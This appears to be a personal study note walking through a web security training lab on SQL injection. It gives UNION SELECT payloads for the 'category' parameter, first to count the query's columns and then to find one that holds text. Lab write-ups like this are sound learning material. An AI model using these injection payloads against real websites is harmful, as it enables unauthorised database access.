 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/ps-wsa-labs/sq-li/finding-a-column-containing-text/"}
---
```







- Verify that the query is returning three columns, using the following payload in the `category` parameter:

```Plain
'+UNION+SELECT+NULL,NULL,NULL--
```

- Try replacing each null with the random value provided by the lab, for example:
    - `'+UNION+SELECT+'abcdef',NULL,NULL--`
    - Replace via Inspector → Selection